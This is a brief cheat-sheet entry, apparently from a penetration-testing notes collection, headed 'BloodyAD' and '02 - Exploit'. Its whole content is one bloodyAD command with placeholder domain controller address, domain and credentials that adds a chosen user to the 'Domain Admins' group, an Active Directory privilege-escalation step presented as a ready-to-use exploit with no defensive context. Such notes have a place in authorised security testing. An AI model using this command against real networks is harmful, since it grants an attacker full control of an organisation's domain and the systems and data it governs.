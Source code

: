 # BloodyAD

## 02 - Exploit

```
$ bloodyAD --host "<domain_controller_IP>" -d "<domain>.<tld>" -u "<username>" -p "<password>" add groupMember "Domain Admins" "<target_username>"
```